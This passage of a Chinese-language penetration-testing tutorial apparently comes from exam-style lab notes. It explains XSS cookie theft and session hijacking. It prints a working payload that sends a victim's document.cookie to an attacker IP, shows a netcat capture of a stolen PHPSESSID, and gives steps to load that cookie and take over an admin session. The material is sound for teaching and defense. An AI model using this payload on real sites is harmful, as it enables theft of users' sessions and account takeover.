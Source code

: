 正如上面所演示的，浏览器重定向起作用，将受害者浏览器通过iframe发送到我们的攻击机器。同样，受害者不会在其浏览器中看到零大小的iframe。我们可以走得更远，将受害者浏览器重定向到客户端攻击或信息收集脚本。

为了做到这一点，我们首先需要捕获受害者的用户代理头，以帮助识别他们正在使用的浏览器类型。在上面的示例中，我们使用了 Netcat，因为它显示了从浏览器发送的完整请求，包括用户代理头。Apache HTTP服务器也会默认捕获 User-Agent 头在 /var/log/apache2/access.log 中。我们不会执行任何客户端攻击。相反，我们将尝试以管理员用户身份访问 Web 应用程序。

##### 窃取Cookies和Session信息

```
<script>alert(document.cookie)</script>
```

如果应用使用不安全的会话管理配置，我们可以用 XSS 来窃取 cookie 和会话信息，使用窃取的经过身份验证的用户cookie，可以伪装成该用户在目标网站内操作。

网站通常使用 cookie 来跟踪用户的状态和信息。cookie 可以设置几个可选标志，其中有两个对我们作为渗透测试人员来说特别有意义：Secure 和 HttpOnly。

- “Secure”标志指示浏览器仅通过加密连接（如HTTPS）发送cookie，从而保护cookie不被明文发送并在网络上被截取。 
- “HttpOnly”标志指示浏览器拒绝JavaScript访问cookie。如果未设置此标志，则我们可以使用XSS playlad来窃取cookie。

然而，即使没有设置这个标记，仍然需要绕过一些其他浏览器控件，因为浏览器安全规定一个域设置的 Cookie 不能直接发送给另一个域。顺便提一下，通过在 Set-Cookie 指令中使用 Domain 和 Path 标记，可以放宽子域的限制。为了解决这个问题，如果 JavaScript 可以访问 Cookie 值，我们可以将其作为链接的一部分发送，并发送该链接，然后可以拆解链接以检索 Cookie 值。

我们将使用JavaScript读取cookie的值，并将其附加到链接回我们攻击机的图像URL。浏览器将读取图像标记并发送一个GET请求到我们的攻击系统，其中受害者的cookie作为URL查询字符串的一部分。

为了实施我们的Cookie窃取器，我们需要按以下方式修改我们的XSS playlad：

```html
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

一旦我们向应用程序提交了此playlad，我们只需要等待经过身份验证的用户访问该应用程序，以便我们可以窃取PHPSESSID cookie。

当我们的受害者浏览所影响的页面时，他们的浏览器将使用经过验证的会话ID值与我们建立连接：

```shell
kali@kali:~$ sudo nc -nvlp 80
listening on [any] 80 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 53824
GET /cool.jpg?output=PHPSESSID=ua19spmd8i3t1l9acl9m2tfi76 HTTP/1.1
Referer: http://127.0.0.1/admin.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
...
```

现在我们有了已认证的会话ID，我们需要将其设置到我们的浏览器中。

使用Cookie-Editor浏览器插件来设置和操作Cookie。（在https://addons.mozilla.org/zh-CN/firefox/addon/cookie-editor/页面安装插件）

F12，点击Cookie-Editor打开插件，点击“add”按钮，粘贴窃取到的Cookie值，点击“add”保存。添加了 cookie 值以后，就可以在不提供任何凭据的情况下访问目标的相应管理界面。

访问时，如果我们不被重定向到登录页面，并且在反馈项旁边有“删除”按钮。表明我们已成功劫持了管理用户的会话。

请注意，这种攻击是特定于会话的。一旦我们窃取了会话，我们就可以假扮受害者直到他们退出或会话过期。

#### 3 过滤绕过

- [XSS过滤绕过速查表](https://blog.csdn.net/weixin_50464560/article/details/114491500)
- [反射型XSS(按ctrl键点我跳转)](https://www.freebuf.com/articles/web/276998.html#1)
